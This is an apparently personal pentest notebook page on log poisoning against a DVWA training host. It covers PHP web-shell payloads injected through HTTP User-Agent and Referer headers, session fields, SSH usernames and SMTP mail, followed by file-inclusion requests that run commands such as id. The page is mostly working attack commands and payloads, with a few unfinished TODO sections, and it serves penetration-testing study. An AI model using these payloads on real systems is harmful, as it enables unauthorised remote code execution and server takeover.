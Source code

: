# Manual

TODO: include conditions and screenshots for the attack vectors

## HTTP

### Access Log

Make a valid request with the code in the `User-Agent` header.

```
$ curl -H 'User-Agent' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local" -v
```

### Error Log

Make an invalid request, an invalid inclusion for example, with the suitable `Referer` header.

```
$ curl -H 'Referer' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local/urldoesnotexist" -v
```

#### PHP Sessions

TODO: Go to authentication page to include PHP code to poison error log then perform a file inclusion.

```
username=<?=phpinfo();?>&password=test
```

## SSH

SSH logs the username of each connection. Create a connection to SSH with the suitable username.

```
$ ssh '<?php system($_GET['c']); ?>'@dvwa.local
```

```
/var/log/auth.log&cmd=ifconfig
```

## SMTP

```
$ mail -s "<?php system($_GET['cmd']);?>" www-data@dvwa.local < /dev/null
```

Enumerate valid [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Mail Server/SMTP|SMTP]] user accounts then poison the log with a webshell.

```
$ telnet dvwa.local 25

MAIL FROM:<test@email.com>
RCPT TO:<?php system($_GET['cmd']); ?>

Subject: This is a test
<?php system($_GET['cmd']);?>

.
```

Exploit it.

```
$ curl http://dvwa.local/index.php?page=/var/mail/www-data&cmd=id
```

---
## References

### Backlinks

- [[Log Poisoning]]